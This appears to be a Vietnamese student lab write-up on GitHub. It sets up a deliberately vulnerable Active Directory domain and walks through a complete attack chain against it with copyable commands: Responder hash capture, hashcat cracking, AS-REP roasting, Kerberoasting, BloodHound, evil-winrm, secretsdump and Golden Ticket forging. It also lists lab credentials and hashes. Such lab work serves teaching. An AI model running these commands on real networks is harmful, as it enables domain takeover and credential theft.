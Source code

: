# Windows-Privilege-Escalation
Leo thang đặc quyền để có được tài liệu và quyền 

# Thay đổi chính sách thực thi

Các bước cài đặt:
1) ***Thay đổi chính sách***
```Bash
Set-ExecutionPolicy -ExecutionPolicy Bypass
```
![Thay đổi chính sách](https://github.com/user-attachments/assets/c33adb05-6415-40df-8621-c9ff7fc3f181)

2) ***Cài đặt dịch vụ Active Directory Domain Services (AD DS) trên Windows Server***
```Bash
Install-windowsfeature AD-domain-services
```
![Cài Active Directory Domain Services_Collecting Data](https://github.com/user-attachments/assets/01620801-37e3-4b78-af53-2f50be0b48e7)

____
![Success](https://github.com/user-attachments/assets/59533700-d433-4fb8-b63b-53eecf3a80d8)

3) ***Nạp module ADDSDeployment để sử dụng các lệnh liên quan đến triển khai ADDS***
```Bash
Import-Module ADDSDeployment
```
![Nạp Module ADDS](https://github.com/user-attachments/assets/2ecbffc8-363a-4e24-a454-cbc85088105c)

4) ***Tạo Active Directory Forest ATTT.ptit***
```Bash
Install-ADDSForest -CreateDnsDelegation:$false -DatabasePath "C:\Windows\NTDS" -DomainMode "7" -DomainName "ATTT.ptit" -DomainNetbiosName "ATTT" -ForestMode "7" -InstallDns:$true -LogPath "C:\Windows\NTDS" -NoRebootOnCompletion:$false -SysvolPath "C:\Windows\SYSVOL" -Force:$true
```
![Installing-ADDSForest](https://github.com/user-attachments/assets/7462772e-540d-407c-a893-39f74c17c8a6)
___
![Success_And_need_restart](https://github.com/user-attachments/assets/a8230e1e-9dcb-4d12-ae93-7b2d64306744)

__
Đã có domain ATTT.ptit

![ATTT.ptit](https://github.com/user-attachments/assets/39133b7c-2cd4-42f6-96f0-970125d8f185)

5) ***Tạo cấu trúc AD dễ bị tấn công.
   Tạo người dùng, nhóm với quyền hạn không an toàn***
![Nạp Module vulnadplus.ps1](https://github.com/user-attachments/assets/1b2e5acb-eaaa-4b49-9a0f-757b737e2a43)
____ Thành công
![Success](https://github.com/user-attachments/assets/bf3d7992-f6d6-47a0-a301-a178667e173a)


# Quét lỗ hổng, lấy thông tin người dùng cơ bản
Máy attack : Kali
Máy victim : Window Server
Ta biết hai máy này cùng dải địa chỉ
IP của Kali : 192.168.168.2
![IP_Kali](https://github.com/user-attachments/assets/068bf831-fae0-4a48-9b87-fa3c6019f200)
___Nmap
```Bash
nmap 192.1689.168.0/24
```
![Nmap](https://github.com/user-attachments/assets/e7594472-1d24-4d5e-a7ff-7dc3d319766a)
Quét ra 4 địa chỉ :
- 192.168.168.1
- 192.168.168.13
- 192.168.168.254
- 192.168.168.2

__Dùng Crackmapexec , quét giao thức SMB trong dải địa chỉ 192.168.168.0/24
```Bash
crackmapexec smb 192.168.168.0.24
```
![crackmapexec](https://github.com/user-attachments/assets/1784a766-5d30-4f81-9dad-88af20ece2e8)
Ta thấy có máy SERVER_PTIT __ IP 192.168.168.13

__ Dùng Responder xem có ai viết sai tên trong quá trình tìm kiếm domain__
Khi người dùng nhập thiếu tên, ví dụ chỉ nhập ATTT và thiếu .ptit
DNS không phân giải được địa chỉ và hỏi các mạng xung quanh xem có biết địa chỉ "ATTT" ở đâu không
Responder sẽ trả lời nó biết, yêu cầu nạn nhân cung cấp thông tin
Từ đó ta có mã hash và tên nạn nhân

```Bash
sudo responder -I eth0 -d -w -v
// -I eth0: giao diện eth0
// -d : mode domain, tạo môi trường giả lập DNS, SMB để lừa các máy tính khác trong mạng
// -w: giả làm máy chủ web
// -v: verbose(chi tiết) : hiển thị thông tin chi tiết
```
![responder](https://github.com/user-attachments/assets/9467d5bc-b1b6-4f2e-8869-2ee313924553)

___Win10 nhập tên domain không đủ
![Tên domain chưa đủ](https://github.com/user-attachments/assets/66b18bb2-2b84-499c-a549-6c5ca6f8a896)

___ Ở phía Kali
![Có mã hash](https://github.com/user-attachments/assets/23aac742-e09b-4620-a4bc-2877ee5dad91)

Ta có mã hash của nạn nhân đầu tiên
Ta lưu vào hash.txt
Giải mã bằng hashcat , lưu mật khẩu vào pass.txt
```Bash
hashcat hash.txt /usr/share/wordlists/rockyou.txt -o pass.txt
```
![Hashcat](https://github.com/user-attachments/assets/8ee622ce-856b-43c9-ab29-a9ad41489ae6)

___ cat pass.txt
![cat pass.txt](https://github.com/user-attachments/assets/aa582bcc-010b-489c-9260-eb78729333bb)

***Liệt kê người dùng trong domain***
```Bash
ldapsearch -x -H ldap://192.168.168.13 -b "DC=ATTT,DC=ptit" | grep "userPrincipalName" | awk 'NF{print $NF}' | awk -F '@' '{print $1}' > users
```
![LdapSearch](https://github.com/user-attachments/assets/6cdfaea5-107b-4c37-9ea6-f86e38bd1bb3)

___ Có một vài Domain Admin khi tạo tài khoản sẽ ghi mật khẩu ở phần ghi chú
Nên ta có thể lọc đầu ra để xem phần description
![description](https://github.com/user-attachments/assets/661ff9bc-8458-4fde-8bed-627df971bbf2)
Ta thấy có 3 mật khẩu cùng với 4 tài khoản có mật khẩu mặc định của công ty
Ta lưu những mật khẩu này vào password.txt để dùng sau
![password.txt](https://github.com/user-attachments/assets/341e3e70-e863-4e36-a3d3-1a4f515958bd)

***Tấn công không yêu cầu xác thực trước***
```Bash
impacket-GetNPUsers ATTT.ptit/ -no-pass -usersfile users -format hashcat -outputfile domainhash.txt -dc-ip 192.168.168.13
// impacket: công cụ khai thác AS-REP Roasting
// NPUsers: tài khoản "Do not require Kerberos preauthentication"
// -no-pass: truy vấn mà không cần cung cấp mật khẩu
// users: file users có được từ việc chạy ldapsearch
// -format hashcat: định dạng đầu ra Hashcat để có thể bẻ khóa sauu đó
```
![GetNPUsers](https://github.com/user-attachments/assets/d9625687-845e-4f1a-863c-8bb175d730e2)

***Dùng hashcat giải mã những tài khoản có thể tấn công NO Require Preauthentication***
```Bash
hashcat domainhash.txt /usr/share/wordlists/rockyou.txt -o passdomain.txt
```
![NoPreauthentication](https://github.com/user-attachments/assets/bcd3d6f0-86f6-40c2-866b-f56be0cad87c)
Ta có cách mật khẩu là : andrew, hardcore,...

***Thu thập thông tin người dùng, nhóm, máy tính, OU, GPO từ Acitve Directory***
```Bash
ldapdomaindump 192.168.168.13 -u 'ATTT.ptit\Dasya.Hanni' -p 'q1w2e3r4t5'
```
![OU_GPO](https://github.com/user-attachments/assets/acf60f1e-0fe0-4f0a-ad9f-b9af25fe632f)
___Đầu ra là những file json để phân tích
domain_users.json – Danh sách người dùng trong AD.
domain_groups.json – Danh sách các nhóm trong AD.
domain_computers.json – Danh sách máy tính trong domain.
domain_admins.json – Danh sách tài khoản quản trị viên.
group_memberships.json – Mối quan hệ giữa các nhóm và thành viên.
domain_gpos.json – Danh sách Group Policy Objects (GPO).
domain_trusts.json – Danh sách các mối quan hệ trust giữa các domain.

***Blood Hound _dữ liệu đồ thị***
Ta dùng BloodHound để tìm tài khoản và đường đi để leo thang đặc quyền
1) Thu thạp dữ liệu domain cho BloodHound
```Bash
bloodhound-python -d ATTT.ptit -u Dasya.Hanni -p 'q1w2e3r4t5' -c all --dns-tcp -ns 192.168.168.13
```
__Ta có các file .json để up lên BloodHound
![FileBloodHound](https://github.com/user-attachments/assets/11c79ba0-726c-4523-ac8b-3e947c7e1ad4)

___ Khởi chạy neo4j( Graph Database0
![neo4j](https://github.com/user-attachments/assets/24d35334-5af3-488e-bc12-d2280c90a5c5)
__ Vào http://localhost:7474/
__ Mở BloodHound  và upload file 
__Ta đánh dấu những tài khoản đã có mật khẩu là Owned cho dễ nhận biết
![Owned](https://github.com/user-attachments/assets/6c0ccb9e-4e64-46eb-a107-1f63f0466721)
__ Dùng hàm List all Kerberoastable Accounts 
để liệt kê những người dùng có thể tấn công Kerberoastable
![Kerberoastable Accounts](https://github.com/user-attachments/assets/66fb60a9-2071-4038-ab3a-612c11b97338)
__Lấy mã hash của những tài khoản có quyền cao hơn:
```Bash
impacket-GetUserSPNs -request -dc-ip 192.168.168.13 ATTT.ptit/Dasya.Hanni:q1w2e3r4t5 -o kerberoastable.txt
```
![User quyền cao](https://github.com/user-attachments/assets/badf235d-b727-495c-87d1-2913311ea646)

__ Chạy hashcat cùng password-list để có mật khẩu của những tài khoản quyền cao:
```Bash
hashcat kerberoastable.txt 10-million-password-list-top-1000000.txt -o passdomain.txt
```
![Pass Domain](https://github.com/user-attachments/assets/ae6bd25b-710b-47ac-b63f-ab8f942cc062)
__ta được 2/4 tài khoản

***Leo thang đặc quyền***
Dùng hàm Shortest Paths from Kerberoastable Users
Chọn mục tiêu là server ATTT.ptit
Tài khoản thì ta thấy có HTTP_SVC là có kết quả trả về
![Hàm shortest](https://github.com/user-attachments/assets/0b7227f0-fb5e-44bb-9c6e-f08ba0102ef9)
_Xem trợ giúp bằng chuột phải vào những cung giữa các nốt để có thể leo thang dần dần
![Help](https://github.com/user-attachments/assets/2f2318dc-3cb4-40c3-91d4-dbefc4a14eb6)

__Ta add thành công HTTP_SVC vào nhóm OFFICE ADMIN 
```Bash
net rpc group addmem "OFFICE ADMIN" "HTTP_SVC" -U "ATTT.ptit/HTTP_SVC%panther" -S 192.168.168.13
```
```Bash
///Kiểm tra xem member đã có trong group chưa
net rpc group members "OFFICE ADMIN" -U "ATTT.ptit/HTTP_SVC%panther" -S 192.168.168.13
```
![ADD member](https://github.com/user-attachments/assets/e0c6f41f-d555-4d17-a865-e1d79202f1c6)



***Evil winrm***
Lấy shell , và có thể tải mã độc, download file,...
```Bash
evil-winrm -i 192.168.168.13 -u HTTP_SVC -p panther
```
![Success](https://github.com/user-attachments/assets/43b71a46-ff17-4027-bd58-e064fe1ef1ed)
Tôi đã chạy whoami

***Secret Dump***
Lấy mã hash tất cả tài khoản trong domain:
```Bash
impacket-secretsdump ATTT.ptit/HTTP_SVC:panther@192.168.168.13 > credentials.txt
```
![Credential](https://github.com/user-attachments/assets/27f3e17f-6212-4cfa-9586-0cf9dcee2f37)

***Golden ticket***
Lọc mã hash của tài khoản krb
__ Lấy mã hash của tài khoản Admin
```Bash
cat credentials.txt| grep "Admin"
```
![Admin](https://github.com/user-attachments/assets/c855eafb-c4db-478e-9940-81504b91c23c)
__Dùng Lookupsid và có được DomainSID:
```Bash
impacket-lookupsid ATTT.ptit/Administrator@192.168.168.13 -no-pass -hashes aad3b435b51404eeaad3b435b51404ee:d6ddea1e46488f7caae44c2e3ad9368d| grep -i 'domain sid'
```
![Domain SID](https://github.com/user-attachments/assets/2d3ae89a-de56-4f8c-9815-3a764f5eacec)

__Lấy mã hash của krbtgt:aes128 
```Bash
cat credentials.txt| grep "krb"
```
![krb](https://github.com/user-attachments/assets/bb84394f-5b7b-4757-81e5-afb3d9129530)


***Ticketer***
Kết hợp mã hash và SID  để có Golden Ticket
```Bash
impacket-ticketer -aesKey 5cada99bd47933055f956d22db5808a4 -domain-sid S-1-5-21-485854576-312391858-2906987710 -domain ATTT.ptit Administrator
```
![Ticketer](https://github.com/user-attachments/assets/4547eaeb-a674-4403-abfa-9c8d4fd46019)

___ Export ticket vừa lấy được
```Bash
export KRB5CCNAME=Administrator.ccache
```
![export](https://github.com/user-attachments/assets/05b24e6e-2465-42e6-a9dd-4afdbefb3316)

__ Tải krb5-user để có thể dùng klist kiểm tra ticket
```Bash
sudo apt install krb5-user
```
![krb5-user](https://github.com/user-attachments/assets/87bea2f8-fee4-42d3-99ee-b7b61298bd82)

__Kiểm tra vé
```Bash
klist
```
![klist](https://github.com/user-attachments/assets/1d26acf7-5980-4a4c-8cdf-275f56a47eb1)

***Dùng Ticket để đăng nhập***

![Ticket](https://github.com/user-attachments/assets/4bcecd00-db1a-474b-b0aa-35a38e14b040)






